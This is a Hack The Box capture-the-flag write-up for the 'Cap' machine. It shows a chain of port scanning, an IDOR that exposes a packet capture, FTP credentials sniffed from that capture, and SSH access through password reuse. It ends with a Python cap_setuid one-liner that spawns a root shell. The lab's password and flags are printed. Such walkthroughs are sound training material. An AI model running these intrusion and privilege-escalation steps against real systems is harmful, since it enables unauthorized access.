







# HTB — Cap 🐧

🔗 [View HTB Achievement](https://labs.hackthebox.com/achievement/machine/3159649/351)

> **Difficulty:** Easy | **OS:** Linux | **IP:** 10.129.9.89 | **Time to Root:** 2h 13min

---

## Summary

Cap is an easy Linux machine running a Python/Gunicorn-based security dashboard. The attack chain involves exploiting an **IDOR vulnerability** to access another user's packet capture, extracting **FTP plaintext credentials** via Wireshark, reusing those credentials for **SSH access**, and finally escalating to root via **Linux capabilities (cap_setuid)** on Python 3.8.

**Attack Chain:**
```
Web IDOR (/data/0) → Download PCAP → FTP creds in plaintext (Wireshark)
→ Password reuse on SSH → Shell as nathan → cap_setuid on python3.8 → Root
```

---

## Enumeration

### Nmap

```bash
nmap -Pn -sV -sC -p- --min-rate 5000 -oA cap_scan 10.129.9.89
```



**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Gunicorn (Security Dashboard) |

> **Note:** `-Pn` flag was required — the host blocks ping probes by default.

### FTP — Anonymous Login

```bash
ftp 10.129.9.89
# Username: anonymous → Login failed
```

Anonymous login denied. Moving on.

### Web Enumeration — Gobuster

```bash
gobuster dir -u http://10.129.9.89 -w /usr/share/wordlists/dirb/common.txt
```



**Discovered:**

| Path | Status |
|------|--------|
| /data | 302 → / |
| /ip | 200 |
| /netstat | 200 |

---

## Initial Access

### Web App — IDOR Vulnerability

Navigating to `http://10.129.9.89` reveals a **Security Dashboard** logged in as user **Nathan**.



The **Security Snapshot** feature captures 5-second PCAPs and stores them at `/data/<id>`. The default capture is at `/data/1`. Changing the ID to `/data/0` exposes a capture belonging to another user — a classic **IDOR (Insecure Direct Object Reference)**.

```
http://10.129.9.89/data/0  ← accessed without authorization ✅
```

Downloading the PCAP from `/data/0` and opening it in Wireshark:

```bash
wireshark 0.pcap
# Filter: ftp
```



**FTP credentials found in plaintext:**

```
Username: nathan
Password: Buck3tH4TF0RM3!
```

### SSH — Password Reuse

```bash
ssh nathan@10.129.9.89
# Password: Buck3tH4TF0RM3!
```



✅ **Shell obtained as `nathan`**

---

## User Flag

```bash
cat ~/user.txt
```



```
2da49c5d84c383e1e13abec0da018f30
```

---

## Privilege Escalation

### Linux Capabilities Enumeration

```bash
getcap -r / 2>/dev/null
```



**Key finding:**

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

`cap_setuid` allows Python to call `setuid()` and change its UID to **0 (root)** — a critical misconfiguration.

### Exploitation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

✅ **Root shell obtained**

### Root Flag

```bash
cat /root/root.txt
```

```
6169994c702f3b70e1c876a51c0dd169
```

---

## Vulnerabilities Summary

| # | Vulnerability | Impact |
|---|--------------|--------|
| 1 | IDOR on `/data/<id>` | Access other users' PCAP files |
| 2 | FTP plaintext credentials | Credentials captured in PCAP |
| 3 | Password reuse across services | SSH access as nathan |
| 4 | `cap_setuid` on python3.8 | Full root privilege escalation |

---

## Key Techniques & Commands

```bash
# Scan all ports, skip ping discovery
nmap -Pn -sV -sC -p- --min-rate 5000 -oA cap_scan <IP>

# Directory enumeration
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt

# Wireshark FTP filter (find plaintext creds)
ftp

# Capability enumeration (run after every shell)
getcap -r / 2>/dev/null

# cap_setuid Python PrivEsc
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

## Lessons Learned

- **Always test IDOR** — if a URL has a number, try changing it (especially to 0)
- **FTP sends credentials in plaintext** — always check PCAP captures for FTP traffic
- **Password reuse is common** — always try found credentials across all open services
- **Run `getcap` early** — Linux capabilities are a frequent PrivEsc vector on OSCP-style machines
- **Use `-Pn` with Nmap** — many HTB machines block ping probes by default

---

## Tools Used

| Tool | Purpose |
|------|---------|
| Nmap | Port scanning & service enumeration |
| Gobuster | Web directory enumeration |
| Wireshark | PCAP analysis, FTP credential extraction |
| SSH | Remote access |
| getcap | Linux capability enumeration |
| Python3.8 | Privilege escalation via cap_setuid |

---

## Proof

🔗 [HTB Achievement Link](https://labs.hackthebox.com/achievement/machine/3159649/351)

---

*First HTB machine — rooted on March 2, 2026* 🎉
